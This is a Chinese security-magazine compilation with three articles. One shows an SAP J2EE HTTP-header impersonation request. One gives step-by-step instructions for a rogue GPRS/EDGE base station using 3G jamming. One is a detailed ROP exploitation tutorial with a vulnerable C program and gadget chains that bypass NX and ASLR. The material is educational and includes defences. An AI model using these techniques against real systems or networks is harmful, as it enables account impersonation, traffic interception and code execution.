SAP 的 J2EE 引擎 HTTP 头变量认证的目的是要提高整个 SAP 平台的安全级别。通过实施双因素认证方案，攻击者成功攻击认证机制的概率将会大大减少。行业公认的几个 EAM/WAM 解决方案都通过该机制被集成到了 SAP 环境中。例如：RSA ClearTrust、CA SiteMinder、Oracle Oblix、Entrust 公司 GetAccess 及微软集成的 Windows 认证。然而，如果没有正确执行这些组件，情况将比攻击本身更糟糕。一个远程的匿名攻击者可以访问 SAP J2EE 引擎应用程序（如企业门户），从而冒充系统中的任何用户。攻击者只需将以下 HTTP 请求发送到 SAP 服务器中，就可以模拟该第三方工具：

```http
GET /irj/portal HTTP/1.1
Host: <server>:<port>
<additional headers>
<AUTH_HEADER>: <user_to_impersonate>


```

HTTP 头 AUTH_HEADER 的值由使用的第三方解决方案决定。例如，在集成的 Windows 身份验证情景中，标题名为 REMOTE_USER。如果成功，SAP 服务器将返回一个有效的登录 Cookie，同时攻击者能够用模拟的用户权限访问业务内容。

### 小结

SAP 拥有丰富的技术帮助解决企业核心业务信息 Web 访问机制。这些技术都有自己专用的安全模型，故针对每一个暴露出来的特定威胁都需要快速理解并解除漏洞。目前许多 SAP 系统都已连接到互联网或一些不受信任的网络，这大大增加了攻击者可能攻击的范围。攻击者可以利用 SAP Web 组件中的各种漏洞远程对企业组织的核心商业信息实施破坏、欺骗、窃取等攻击。强调一个事实：若企业未及时响应 SAP 安全建议并进行相关设置，则上面的类似攻击将很可能出现。SAP 当前正快速推进系统安全性建设，从 SAP 安全指导，即最新发布的白皮书以及每日更新的补丁可看出这是 SAP 的长期策略。当前，客户需要及时保护其核心业务信息。通过理解当前存在的威胁并参照详细的安全建议，SAP 客户可以升级其 ERP 系统和核心业务平台的安全级别，以防范各种网络攻击威胁。

前置知识：无

- 关键词：GPRS、EDGE、攻击

## GPRS/EDGE/UMTS/HSPA

## 移动数据通信攻击
文/David Perez，Jose Pico　译/小小杉

事实上，GSM 通信技术安全存在很大的漏洞，GSM 中涉及的加密算法 A5/1 也已经被破解……在缺少网络认证的情况下，攻击者创建一个恶意的基站收发台（BTS），既可实现完全控制受害者移动终端的整个通话记录及其 SMS 消息，而且事先并不需要破解 GSM 使用的加密算法……通过这些装置模拟手机网络，截取并记录了 GSM 手机的通话信息。

GPRS 和 EDGE 数据通信协议是在 GSM 部署之后新增的协议，同样其安全性一直以来也饱受质疑。本文详细描述针对 GPRS（2G）和 EDGE（2.5G）的攻击技术，通过架设一个恶意的 BTS（兼容 GPRS/EDGE），使被攻击移动设备连接此 BTS，从而获取该设备的整个数据通信记录。

### GPRS/EDGE/UMTS/HSPA 通信系统基础

图 1 描述了一个正常 GPRS/EDGE 连接的架构图。移动终端可能是一个智能手机，或者带 2G/3G 调制解调器的笔记本，也可以是支持 3G 网络的 iPad，甚至是其他的 2G/3G 设备。与其最近的公用陆地移动通信网（PLMN）中的 BTS 建立一个无线连接，在移动终端用户认证完毕后，将会在移动终端与 GPRS 网关支持节点（GGSN）之间建立一个 IP 数据连接，这期间穿越 BTS、基站控制器 BSC 和 GPRS 服务支持节点（SGSN）。移动终端在隧道建立的过程中通过 GGSN 分配到一个指定的 IP 地址，然后通过此隧道发送所有的 IP 数据包至 GGSN，GGSN 拆封接收到的 IP 数据包分组，并将其路由给 Internet。相反，GGSN 从 Internet 接收的数据包都会封装成一个个的分组，并通过已建立的隧道发送给移动终端。
图 1  GPRS/EDGE 连接架构图

在整个无线连接过程中，是否使用加密算法取决于 BTS。移动终端会告知 BTS 其支持哪些加密算法，同样 BTS 也会告诉移动终端在建立连接后需要用到哪些协议。加密算法可能是 GEA0、GEA1 等，这里并不过多描述这些算法的区别，因为整个攻击过程并不关心 PLMN 是否使用了加密算法。而且若 BTS 选择了 GEA0 加密算法，则意味着整个通信未加密。根据通信标准，所有连接此 BTS 的移动终端也必须支持未加密算法。这也是攻击中利用的一种漏洞。

### 漏洞分析

- 1. **GPRS/EDGE 协议中缺少相互认证**  
  GPRS 和 EDGE 都使用传统的明文 GSM 认证，为单向认证。移动终端必须向 PLMN 证明此 SIM 卡来自合法的客户终端，但客户终端连接的 BTS 并不需要向终端证明自己的合法身份，无须证明自己是否来自真实的 PLMN。这使得攻击者可以搭建一个恶意 BTS，向目标终端广播消息以冒充合法的 PLMN，目标终端无法鉴别此次连接的 BTS 是否来自合法的 PLMN。Chris Paget 在 Defcon 2010 黑客大会上已经演示了通过构建伪造的 BTS 劫持受害者手机的 GSM 通话记录及短消息，而且据我们所知，当前这种攻击已经不仅仅局限于 GPRS/EDGE 数据网络连接。

- 2. **GPRS 通信未加密**  
  移动通信技术标准要求所有的 GPRS/EDGE 设备支持 GEA0 加密算法，这实际上意味着系统未加密。这个事实使得攻击者可使用伪造的 BTS 欺骗移动终端，向其发送或使其接收未加密的数据信息。

- 3. **当 UMTS/HSPA（3G/3.5G）服务不可用时，支持 UMTS/HSPA 的设备降级为 GPRS/EDGE**  
  UMTS 和 HSPA 使用 UMTS 认证，采用双向认证方式，通过验证 XRES 与 RES 是否相同，实现了 VLR/SGSN 对移动终端（MS）的认证；通过比较 XMAC 与 MAC 是否相同，实现了 MS 对 HLR/AUC 的认证。SGSN/VLR 接收到来自 MS 的 RES 后，将 RES 与认证向量 AV 中的期望认证应答 XRES 进行比较，相同则认证成功，否则认证失败。  
  同样，MS 接收到认证请求后，首先计算消息认证码 XMAC，并与认证令牌 AUTN 中的消息认证码 MAC 比较，如果不同，则向 SGSN/VLR 发出拒绝认证消息，并放弃认证过程。对 UMTS 认证方式感兴趣的读者可参考相关文章。  
  当采用了 UMTS 互认证后，攻击者就无法使用伪造的基站欺骗 UMTS/HSPA 设备，除非认证过程中的加密算法被破解。这种进步自然是各种通信设备都愿意接受的，但现实中大多数 UMTS/HSPA 设备依旧兼容 GSM/GPRS/EDGE，在 UMTS/HSPA 网络不可用时，设备会重新配置尝试连接 GSM/GPRS/EDGE 网络。此漏洞使得攻击者只需要对 UMTS/HSPA 频率段进行电子干扰，即可轻易地迫使这些设备降为一个只支持 GSM/GPRS/EDGE 的设备，从而转为针对前面两个漏洞的攻击。

### 攻击工具

执行此类攻击需要的所有工具都可以通过互联网获取到，软件程序可以免费下载，而硬件设备可在互联网上购买，如图 2 所示。
图 2  攻击者实施移动数据通信攻击可能用到的工具

一般而言，攻击者可使用如下工具：

- 1. **ip.access nanoBTS-Model165CU-EGSM900 工具**  
  这是一款兼容 GSM+GPRS+EDGE 功能的 BTS，由 ip.access 公司研制。其特性是以太网 Abis 接口 IP 化，可通过以太网电缆便捷地连接基站控制器 BSC。Abis 接口 IP 化的基本原理是采用 IP 技术承载核心网和分组域业务，基站和 BSC 采用 IP 接口板，语音、数据、信令及 OAM 管理消息均通过 IP 协议封装成 IP 数据包进行传输。更多信息可参考厂家产品页面。

- 2. **可接入互联网的 PC 或者笔记本**  
  图 2 中使用的是 Dell Studio1737 笔记本，可额外带一个千兆 USB 2.0 以太网适配器连接到一个 ADSL 路由器。

- 3. **OpenBSC**  
  OpenBSC 是一个开源项目，部分实现了 Abis 协议，目的是提供一个基础实验和安全研究的 GSM 网络。可看做一个软件盒中的 GSM 网络，最小化地构建一个微型的、自包含的 GSM 网络。软件可在开源项目站点下载，其目的主要是基于 GSM 通信的研究与实现。

- 4. **OsmoSGSN**  
  OsmoSGSN 是 OpenBSC 项目中的一个应用程序，即 GPRS 服务支持节点 SGSN 的程序实现。它实现了 GPRS 移动管理、会话管理等。SGSN 通过 Gb 接口连接 BSS（如 ip.access nanoBTS），OsmoSGSN 则通过 GTP 协议连接 GPRS 网关支持节点 GGSN。

- 5. **OpenGGSN**  
  OpenGGSN 即 GPRS 网关支持节点，用来兼容互联网与移动网络设施之间的报文转发，也称为 GPRS 路由器。例如，把 GSM 网中的 GPRS 分组数据包或 UMTS 网络的分组数据包进行协议转换进而传送到 Internet。OpenGGSN 应用程序可在 http://sourceforge.net/projects/ggsn 下载。

- 6. **手机干扰器**  
  手机干扰器可以干扰手机正常从基站获取信号，此干扰器正常工作后，可有效屏蔽手机信号。攻击者可借助移动电话干扰器干扰指定位置 UMTS/HSPA 分配的频段，且确保 GSM/GPRS/EDGE 频带不受干扰。

### 攻击步骤

攻击者劫持设备的目标移动数据通信，可能需要执行下面的步骤。图 3 给出了攻击总体框架。
图 3 使用 nanoBTS 搭建一个恶意的无线连接

- 1. 攻击者自身需要尽可能地靠近目标设备，使得攻击者架设的 BTS 以强大功率发射的信号能够覆盖目标设备。当然攻击者也可采用高增益定向天线或者信号放大器来扩大攻击范围。
- 2. 攻击者监听无线电波并在多个不同的频段中选择一个合适的频率；他选择的可能是一个“邻居”频率，即合法 PLMN 网络周边单元 cells 的无线电发射频率，实际上这个频率的合法 PLMN 并没有使用。攻击者必须事先知道攻击目标的 PLMN 位置，或者在某一指定区域轮流尝试各种不同的 PLMN 实施攻击，最终匹配到合适的 PLMN。
- 3. 攻击者使用上一个步骤选好的频段来配置 BTS，并将其国家代码（MCC）和移动网络代码（MNC）与真实的 PLMN 设置成相同的值，以模拟出一个真实的 PLMN。攻击者也可搭建自己的 BTS，接收目标用户的连接（目标用户由用户识别码确定，可唯一确定用户的 SIM 卡，即 GSM 分配给移动用户唯一识别号码）或者用户的国际移动设备识别码（IMEI，其可唯一标识一个移动设备）。
- 3（续）攻击者需要事先知道目标设备的 IMSI 或者 IMEI，否则他只能简单地监控并记录该区域任意 IMSI/IMEI 发出的连接尝试；当确定攻击目标出现在指定区域时，可以在同区域不同位置反复测试实验，若存在一个 IMSI/IMEI 出现在每个测试点，则可断定其为攻击目标。
- 4. 攻击者需确保他的笔记本电脑正确连接 Internet，并正确配置了 OsmoSGSN、OpenGGSN 和路由表，否则目标设备发送的消息无法转发到 Internet，同时 Internet 接收的内容也无法返回给目标设备。攻击者若只是想建立一个 IP 连接，并不打算转发目标设备的消息，则可忽略此步骤。
- 5. 攻击者放大 BTS 功率发射更强的信号。若一切顺利，则被攻击的 MS 会放弃连接合法的 PLMN，而选择尝试连接攻击方搭建的 BTS。移动终端从一个 BTS 转移到另一个 BTS 涉及细节问题，但主要取决于信号强度。基本上 MS 会尝试连接其所知道的最强信号 BTS。当 MS 连接上恶意 BTS，则 BTS 会指示 MS 使用 GEA0 作为通信加密算法（即实际上未加密）。尽管攻击者的 BTS 只是发射合法 BTS 的部分信号，但只要它更接近被攻击的 MS，就可以做到向其提供比合法 BTS 更强的信号。
- 6. 一旦被攻击的 MS 成功连接攻击者搭建的伪 BTS，则攻击者可完全控制 MS 数据连接，它可读、修改、重定向由 MS 通过 GPRS/EDGE 发出或接收的 IP 报文。

### 当攻击扩展到 3G 网络

若目标 MS 使用 3G 网络连接，攻击者依旧可以对其实施攻击。当 3G 不可用时，为目标 MS 提供可配置的 2G 网络，则此时所有攻击者只需执行下面的步骤即可：开启手机信号干扰器，使其 UMTS 在该位置的频带受到干扰，从而迫使 MS 放弃 3G 网络，而选择连接 2G 网络。

### 攻击带来的影响

受此类攻击的影响，攻击者可充当中间人整体控制目标 MS 的 IP 连接。可操作的方式如：嗅探信道获取明文实体身份（如 HTTP、FTP）；将目标 MS 与互联网的连接重定向到恶意的钓鱼网站、流氓 Web 服务器等其他恶意终端；在 HTTP 应答报文中插入恶意内容以修改通信方式；直接攻击目标 MS 的 IP 栈，并做端口扫描或者利用目标 MS 运行的任意服务漏洞。

### 应对措施和方法

不幸的是，GSM/GPRS/EDGE 在设计上存在漏洞，若不对协议本身、网络设备及移动设备进行重大改动是无法修复这种缺陷的。我们不可能坐等这种事情发生。作为用户，可以采取下面的措施，尝试保护通信数据不被劫持：

- 1. 使用具备终端认证与加密的高级别协议，如 SSL 或者 IPsec。
- 2. 将 MS 配置成默认连接 UMTS/HSPA 网络；若 MS 不接受 2G 网络的降级连接，则 MS 通信数据将不会遭受任何针对 2G（GSM/GPRS/EDGE）网络已知的攻击。

前置知识：无  
关键词：Shellcode、ROP
## 无须注入 Shellcode 实现的 ROP 程序的攻击

文/图 CrazyRabbit

近两年，基于 return-to-libc 和 borrowed-code-chunks 技术的 Return-oriented Programming（ROP）已经成为一种流行的绕过 NX（Non-eXecutable）的攻击方法。目前，已经有多个针对 Windows、iPhone OS 的 DEP 和代码签名的 ROP 攻击实例。如今，为了对抗 return-to-libc/ROP 攻击，大部分 Linux 发行版已经默认启用了 ASCII-Armor 地址映射（将 libc 的地址映射到以 NULL 字节开头的地址空间）和地址空间随机化（ASLR）技术。

本文将描述如果将传统的 return-to-libc 技术扩展为分步（multi-stage）方法，就能躲避 ASLR 和 ASCII-Armor 映射，同时使得在现在的 Linux x86 上实现 return-to-libc/ROP 更容易。另外，通过重用二进制文件中的代码和数据，可以创建一系列 ret-to-libc 调用（调用链）以绕过 ASLR 的保护。

为了绕过 ASLR，攻击者可以使用暴力破解的方法来猜出随机化的地址，或者使用格式化字符串漏洞来获取信息。暴力破解的方法对于库地址相对有效，因为随机化地址的熵（entropy）比较低。随着 ROP 的发展，出现了一种更精确的方法可以通过 GOT Overwriting（GOT 覆写）来绕过 ASLR。该方法能够解决库地址随机化的问题，使得 ret-to-libc 变得可能，但是栈地址的随机化问题仍然存在。

本文将介绍一种针对 Linux x86 的分步 ROP 攻击技术。该方法能够绕过 NX、ASLR 和 ASCII-Armor 地址映射。通过对 ret-to-libc 的扩展来实现躲避 NX，通过运行时解析 libc 库地址来绕过 ASLR，同时通过 stage-0 加载器来绕过 NULL 字节问题和 ASCII-Armor。

### 背景介绍

缓冲溢出技术已经有 30 多年的历史了，直到今天仍然很流行。到目前为止人们已经提出了很多防止缓冲溢出和检测缓冲溢出攻击的方法。本文将主要讨论高级的系统层防护方法，包括 Non-eXecutable（NX/XD/DEP）、地址空间随机化（Address Space Layout Randomization, ASLR）和 ASCII-Armor 地址映射技术。这些技术已经被大部分 Linux 发行版集成进了系统。正所谓道高一尺魔高一丈，随着这些防御技术的提出，黑客也提出了很多高级的攻击技术来绕过这些防护方法。

由于现在的 Linux 都集成了 ASLR、NX 等技术，要想再实现缓冲溢出攻击变得更困难了。目前尚未有在 Linux x86 上绕过 NX 和 ASLR 的通用方法。传统的代码注入攻击在集成了 NX 的系统上无效。一种更著名的攻击方法，ret-to-libc 可以绕过 NX。该方法使用一些高级的技术如 esp lifting 和 frame faking，创建一个 ret-to-libc 函数调用链，如 setuid()、system("/bin/sh")。最近，基于 ret-to-libc 和 borrowed-code-chunks 方法的 ROP 攻击是一种新的高级攻击方法。该方法能够绕过 NX/DEP。在 ROP 中，返回到以 RET 指令结尾的代码块（gadgets），而非 libc 函数。只要有足够多的代码片段，就可以实现任何功能。

- 在一个固定的地址创建一个自定义的堆栈。该堆栈将用于 stage-1 中真正实现攻击功能的 ROP 代码片段。可以选用任意可写的内存区来实现这一步。
- 使用 stage-0 的加载器将 ROP 代码片段转移到上一步创建的自定义堆栈。“ROP 技术的分步实现”将描述如何构造 stage-0 加载器，使其能够通过重用被攻击程序中的数据来构建代码片段。在 stage-0 的最后，将栈帧切换到自定义堆栈并从那开始执行。在后面还将展示如何将 stage-0 加载器变得更通用，还将描述如何在运行时解析 libc 地址。

### ROP 技术的分步实现

#### 1. 一个有漏洞的示例程序

本文将使用一个简单的栈溢出程序来解释 ROP 攻击技术。该程序如图 1 所示。

```c
// vuln.c
// gcc -o vuln vuln.c -fno-stack-protector -fno-pie ...

#include <string.h>
#include <stdio.h>

int main(int argc, char **argv) {
    char buf[256];
    int i;
    setreuid(geteuid(), geteuid());
    if (argc < 2) {
        printf("Need an argument\n");
        exit(0);
    }
    strcpy(buf, argv[1]);
    printf("%s\nlen:%d\n", buf, (int)strlen(buf));
    return 0;
}


```

> 图 1  实例程序

虽然 ret-to-libc 和 ROP 能够绕过 NX，但是对 ASLR 和 ASCII-Armor 却仍然没有办法。攻击者必须得设法解析得到随机化后的 libc 函数地址和函数参数地址。另外，输入的 NULL 字节会被字符串处理函数丢弃。

上述程序被编译后可在带有 ASLR 和 ExecShield 的 Fedora 13 x86，内核 2.6.33 上运行。为了攻击该程序，我们要创建一个 ROP 函数调用链。

#### 2. 固定地址的自定义栈

如果我们能够在一个固定地址创建一个自定义栈，然后将程序执行流跳转到这个自定义栈，并继续执行，就可以解决以下的问题：

- 随机化栈地址，从而绕过 ASLR。
- 获取 ret-to-libc 调用所需参数的精确地址。
- 控制代码片段末尾的 leave 指令。

在非位置无关（non-position independent）程序的 .data 或 .bss 段，很容易找到一个固定位置。图 2 所示的是 readelf 的输出。我们可以选择 0x08049804 作为自定义栈的位置。事实上，可以选择 0x08049000~0x0804a000 间的任意地址，只要其是静态的、事先知道的、可写的，以及足够大（至少 4096 字节）。

- 为了避免地址含有 NULL 字节，我们应该选择最后一个字节足够小的地址，如 0x08049810。
- 注意不要覆盖了 GOT 表。
- 由于栈会向下生长，所以不应该将其放在数据页的开始，比如选择地址 0x08049010 有可能使得后面的 ret-to-libc 调用失败。

通常情况下，选择 .data 或 .bss 之后的地址是相对安全的。

| readelf 段信息输出 |
|---|
| 包含 .interp、.note、.gnu.hash、.dynsym、.text、.rodata、.data、.bss 等段地址与属性 |
现在已经有了自定义的栈，下一个问题是如何将 ROP 数据传输到该栈。下面将展示如何扩展传统的 ret-to-libc 方法来实现一个通用的 stage-0 加载器。

#### 3. stage-0 加载器

在基于栈溢出的攻击中，要控制执行流，首先得控制栈。在 ASLR 环境中，栈地址经过了随机化处理，并且在最新的内核中，要想猜出该地址变得越来越难。另外，ASCII-Armor 通过将 libc 地址映射为以 NULL 字节开头的字节，使得输入的 libc 函数地址无法被字符串处理函数处理。可以使用内存处理函数如 memcpy()、strcpy() 将攻击数据一块一块地复制到一个新的地址，但是在随机化环境中，无法确定源地址的数据是否是我们需要的。本文采用的方法很简单：使用 ret-to-plt 和 esp lifting 方法来一个字节一个字节地将数据复制到自定义栈中，而不是一块一块地复制。

##### （1）return-to-plt

在非位置无关程序中，PLT（Procedure Linkage Table）段将被映射到一个固定地址，因此可以通过返回到 PLT 中的函数来实现数据传输，如图 3 所示。

很显然，可以使用内存操作函数如 strcpy()、sprintf()、scanf()、memcpy()。此处，选择 strcpy()/sprintf() 来避免输入中的 NULL 字节（strcpy() 和 sprintf() 类似，因此可以互用）。为了将需要的数据传输到自定义栈中，要返回到程序中的 strcpy@PLT 多次，栈的情况如下：

```
strcpy@PLT | pop-pop-ret | custom_stack_address | address_of_desired_byte_1
strcpy@PLT | pop-pop-ret | custom_stack_address+1 | address_of_desired_byte_2
...
strcpy@PLT | pop-pop-ret | custom_stack_address+n | address_of_desired_byte_n
```

pop-pop-ret 代码片段，可以在函数结尾的地方轻易地找到。下面是在 vuln 程序中找到的两个代码片段：

```
0x804843b: pop ebx; pop ebp; ret  (1)
0x80485d7: pop edi; pop ebp; ret  (2)


```
图 3 对 vuln 程序 main 函数的反汇编结果

##### （2）strcpy()/sprintf() 的可用性

我们测试了 Fedora 13 上 /bin、/sbin、/usr/sbin、/usr/bin 目录下默认的 916 个程序，这些程序都超过 20KB。我们发现 66.5% 的程序有 strcpy() 或 sprintf()。根据这个结果，可以推测，有漏洞的程序中含有 strcpy()/sprintf() 的几率也很高，因此我们的攻击在大部分情况下是有效的。为了使这里的方法更通用，后文将展示通过 GOT Overwriting 技术将任意 PLT 函数转变为 strcpy()/sprintf()。

##### （3）攻击所需数据的可用性

我们测试了 Fedora 13 上 /bin、/sbin、/usr/sbin、/usr/bin 目录下默认的 916 个程序，这些程序都超过 20KB。我们发现，98.7% 的程序包含 1 个字节的所有 256 个值（0x00~0xff）。即使有时候某些值缺失了，仍然能够通过修改攻击数据来避免不可用的数据值。

##### （4）加载器

stage-0 加载器的工作流程如下：

- 接收下一阶段所需的一串字节数据，该数据可能包括任何数据，比如 NULL。
- 对于每个或几个字节，在程序中搜索最长子字符串，然后获取其地址。如果该地址中含有 0x0（即 NULL），则搜索下一个匹配的最长子字符串。
- 按照上文介绍的方法生成 strcpy() 的代码串。
- 重复上述过程直到所有数据传输完成。

stage-0 加载器不包含 NULL 字节。对于下一阶段的数据，可以将其复制到自定义栈中，以绕过 ASCII-Armor。图 4 所示的代码展示了 stage-0 加载器如何将字符串 "/bin/sh" 加载到地址 0x08049824。
### 图 4  stage-0 加载器示例

在 stage-0 的末尾，需要将栈指针切换到自定义栈，然后继续执行。可以通过 frame-faking 技术来实现这一过程，但不是通过返回到函数的末尾，而是通过使用能够修改 ESP 寄存器的 ROP 代码实现。下列代码可以在大部分程序中找到，因此可以使用这部分代码。

```c
pop ebp; ret // load the custom stack's address
leave; ret   // switch to new stack frame
or
mov esp, ebp; pop ebp; ret
```

至此，已经创建了一个自定义栈并将需要的数据传输到该栈，因此现在可以进入到 stage-1。接下来的任务就是绕过 NX 和 ASLR。下面将展示如何动态地解析 libc 函数的地址，实现 ret-to-libc 攻击。

#### 4. 解析 libc 地址

虽然可以使用暴力方法来猜测 libc 函数的地址（因为其并未被真正地随机化），在此我们不对其进行讨论，而讨论如何通过 GOT Overwriting 和 GOT Dereferencing 技术来解析随机化后的 libc 地址。有相关文献指出在 Fedora 10 x86 上，GOT Overwriting 有 95% 的成功率，GOT Dereferencing 有 49.5% 的成功率。下面将展示当已经有一个自定义栈时，就会取得 100% 的成功率。

##### （1）GOT Overwriting

GOT Overwriting 是格式化字符串（Format String）攻击中的一种流行技术。该技术首先使用我们需要的目标函数（如 system()）来覆写 GOT 表中某个函数的内容（如 printf()），然后通过调用 PLT 来触发该函数的执行。虽然 libc 函数的地址经过了随机化，但是函数间的偏移是不变的：

```c
offset = execve() - printf();      (1)
execve() = printf() + offset;      (2)
```

在 printf() 首次运行后，GOT 表中的相应表项将会包含其运行时地址。为了使用 execve() 替换 GOT 中的 printf() 表项，要使用几个代码片段来载入相应的值做相应的处理，然后存储到 GOT 的相应内存位置。在实例程序 vuln 中，我们找到了如下的代码片段：

```c
pop ecx; pop ebx; leave; ret               (1)
pop ebp; ret                               (2)
add [ebp+0x5b042464], ecx; pop ebp; ret    (3)


```

将偏移量加载到 ECX，用 printf@GOT 的地址减去 0x5b042464 后加载到 EBP，然后通过代码把该值写入 printf@GOT，以将 execve() 的地址写入对应位置。用于将值载入 ECX 的代码片段（1）的末尾有一个 leave 指令。在攻击中由于已经有位置固定的自定义栈，这个问题不存在。可以重复该过程覆写更多 GOT 表项。

GOT Overwriting 代码在栈中的放置情况如图 5 所示。
### 图 5  GOT Overwriting 代码在栈中的放置情况

##### （2）GOT Dereferencing

该方法与 GOT Overwriting 类似，但是不是把结果写到内存而是写到寄存器中，然后通过 “call reg; ret” 或 “jmp reg” 跳转过去。在实例程序 vuln 中，我们找到了如下的代码片段：

```c
pop eax; pop ebx; leave; ret
add eax, [ebx-0xb8a0008]; lea esp, [esp+0x4]; pop ebx; pop ebp; ret
call eax; leave; ret


```

同样，这些代码片段包含的 leave 指令也可以通过自定义栈得到解决。通过不断地在执行 call eax 之后返回到栈中，可以重复该过程实现任意 ret-to-libc 函数调用。GOT Dereferencing 代码在栈中的放置情况如图 6 所示。
### 图 6  GOT Dereferencing 代码在栈中的放置情况

##### （3）GOT 操作代码片段的可用性

我们检查了 vuln 程序中用于 GOT Overwriting 和 GOT Dereferencing 的代码片段（参见图 7），发现这些代码片段不属于 main() 函数，而是 GCC 编译器生成的辅助函数。这就是说，可以在任何 GCC 编译出的程序中找到这些代码片段。
> 图 7  GOT Overwriting 和 GOT Dereferencing 的代码片段在 vuln 程序中的位置

#### 5. stage-1

有很多方法可以实现 stage-1，因为前面的工作已经使得该过程变得很简单。如果仅想实现几个函数调用，那么 ret-to-libc 的函数调用链就足够了。而如果想实现一个复杂的功能，如 bind shell，就可以直接执行 Shellcode。在本节，我们将展示一些可用于 stage-1 实现的绕过 NX 的通用方法。

##### （1）ret-to-libc 调用链

这是绕过 NX 最通用的方法。一些内核补丁如 Grsecurity、SELinux 可能会阻止一些系统调用的执行。通过 ROP 来实现 esp lifting，可以让函数调用的参数超过 2 个。在实例程序 vuln 中，可以找到如下的代码片段：

```
0x80485d5: pop ebx; pop esi; pop edi; pop ebp; ret
0x80485d2: add esp,0x1c; pop ebx; pop esi; pop edi; pop ebp; ret
```

代码片段（1）可用于有 1~4 个参数的函数调用。代码片段（2）可用于有任意数目参数的函数（最多 11 个）。

- 无法执行任意的代码，如循环和条件跳转。
- 下一个函数调用很难处理上一个函数返回的值，因为该值需要被放在栈上。
- 要实现复杂的 Shellcode，如 bind shell 和 reverse shell，是很困难的。

上述的不足可以通过 ROP 来弥补。例如，可以使用 libc 中的 ROP 代码将函数返回值放置到自定义栈上，如下所示：

```
pop edx; ret
mov [edx+0x18], eax; ret
```

这些代码片段的地址可以在运行时计算出来，然后通过 GOT Overwriting 技术调用。

##### （2）return-to-mprotect

限制版的 mprotect() 由 PaX 项目在多年前提出，但一直没有被 Linux 内核集成进来。现在，大部分 Linux 发行版都带的是无限制版 mprotect()。在这类系统上，可以实现 ret-to-mprotect()、ret-to-memcpy()、ret-to-shellcode 执行链来绕过 NX 防护方法。

##### （3）ROP shellcode

由于可以有效地解析 libc 的地址并绕过 ASCII-Armor，所以我们能利用 libc 中存在的大量 ROP 代码片段来实现任意功能。自定义栈地址让 ROP Shellcode 变得更容易。

### 实际 ROP 实现

### 1. 一个完整的 stage-0 加载器

在上文中假设 strcpy()/sprintf() 在受攻击程序中是存在的，并且将其用于 stage-0 加载器。本节将描述如何扩展思路而将 stage-0 加载器变得更通用。

如果程序中没有 strcpy/sprintf()，我们可以通过前文中描述的 GOT Overwriting 技术将该程序使用的 libc 中的任意函数变为 strcpy/sprintf()。另外，我们需要采取一些措施来处理 NULL 字节和末尾的 leave 指令。首先，我们来看一下如何将 vuln 程序中的 printf() 变为 strcpy()。

### （1）对于末尾 leave 指令的处理

在前文中使用了如下的代码片段来实现 GOT Overwriting：

```
pop ecx; pop ebx; leave; ret
pop ebp; ret
add [ebp+0x5b042464], ecx; pop ebp; ret
```

在 stage-0 中，堆栈是经过随机化的，因此将值载入寄存器 ECX 的代码片段无法被我们使用。然而，我们可以返回到一个能够将 ECX 中内容修改为其参数值的函数中（参数存储于栈上）。这类函数很容易找到。在实例程序 vuln 中，可以返回到 seteuid()，其中 euid 可以是我们需要的任意值。对于该函数的调用将会失败，但是由于 ECX 寄存器已经载入了我们需要的值，这一次我们的“程序”可以继续执行。也可以使用类似的方法来设置寄存器 EAX、EBX 和 EDX 的值。

##### （2）处理位移中的 NULL 字节

可以通过两次加法（一次为正，一次为相应的负值）来避免输入中的 NULL 字节。例如，为了将位移 0x54120 加到 GOT 地址，可以首先将其与 0x41414141 相加，然后与 0xbec3ffdf 相加。另一个方法是将 GOT 地址向左移一个字节（即 8 比特），然后计算新的偏移。

```
execve() = 0x009de10
printf() = 0x040c0f0
offset = (0x39e10 << 8 + 1) - (0x4e5cf0 << 8) = 0x5412001
```

在大型程序中，我们可以找到末尾不带 leave 的 load 和 add 代码片段如下所示：

```
pop ecx; ret
pop ebp; ret
add [ebp+0x5b042464], ecx; ret
```

可以使用如上的这些代码片段作为 stage-0 加载器，同时自定义的栈基址被加载到 EBP，而攻击数据加载到 ECX 中。

### 2. 实际的 ROP 代码片段

理论上，对于大型的程序如 libc，我们可以构建图灵完备的 ROP 代码片段库而实现任意的操作。实际中，为了构建 ROP 攻击程序，仅需要几个在任意二进制文件均可找到如下所示的代码片段：

```
pop r32; ret
add [r32 + offset], r32; ret
add r32, [r32 + offset]; ret   (optional)
call r32; ret                  (optional)
jmp r32                        (optional)


```

自动化的、可移植的 ROP 攻击工具。

### ROP 的实现和结果

有人实现了一个原型工具，即 ROPEME（ROP Exploit Made Easy）。该工具使用文章 *The Geometry of Innocent Flesh on the Bone: Return-into-libc without Function Calls (on the x86)*（CCS 2007）中的算法来生成、保存并在二进制文件中搜索 ROP 代码片段。我们首先在二进制文件中搜索操作码 RET（0xc3），然后从该位置开始将其后的几条指令进行反汇编，并将结果存储到 Trie（前缀树）结构中，以便后面搜索使用。相同代码片段会被分开存储，因为其地址不一样，使得后面在选择代码片段时有更多选择。另外，我们使用如前所述的方法实现了一个 stage-1 和 stage-0 代码生成器，完成 ROP 攻击的自动化。

#### 1. 代码清单

- vuln.c 和 vuln.o：模拟一个有漏洞的程序。
- exploit.py：使用 Python 编写的漏洞攻击程序。
- ./ropeme/*：该文件夹下的代码实现了 ROP 代码片段搜索和存储。
- distorm-1.7.30.tar.gz：该压缩文件为一个用于反汇编的库 distorm。如果系统中之前没有安装 distorm，则在实验之前需要安装该文件。安装步骤为：先解压该文件，然后进入目录，使用命令 `./setup.py build` 和 `./setup.py install` 来完成安装。
- README：对代码的一些说明。

### 2. ROP 代码片段生成的实例

笔者在自己的计算机上测试了该攻击程序。测试环境为 VMWare 7 + Fedora 13。首先运行该程序，如图 8～图 13 所示。
该程序运行后得到的所有程序片段保存在 vuln.gg 文件中。

#### 3. 攻击实现示例

该攻击的实现过程如图 14～图 16 所示。
接下来使用 exploit.py 来攻击 vuln，得到的结果如图 17～图 19 所示。
此时在 bash 中使用 id 命令查看当前用户（root）的信息，如图 19 所示。
图 19 攻击成功，可获取当前用户的账户信息。

从图 19 中可以看到，uid 和 groups 都变成了 nobody。该攻击程序不仅可以用于 Fedora 13，还可以用于其他 Linux 发行版本，如 Ubuntu 和 Hardened Gentoo。但是，在这些情况下，需要修改 stage-0 和 stage-1 中的内容以避免无效字节数据。该程序在 Hardened Gentoo 上可以很好地运行。

### 防御措施

本文提出的方法与传统的 ret-to-libc 和 ROP 攻击在 ASLR 环境中有一个共同的弱点，即在内存中需要一个固定的地址用来返回。本方法对于 PIE（Position Independent Executable）程序无效。PIE 程序可以在运行时以共享库形式被加载到任意内存地址，从而不再为攻击者提供一个固定地址来实现 Return-To-PLT。

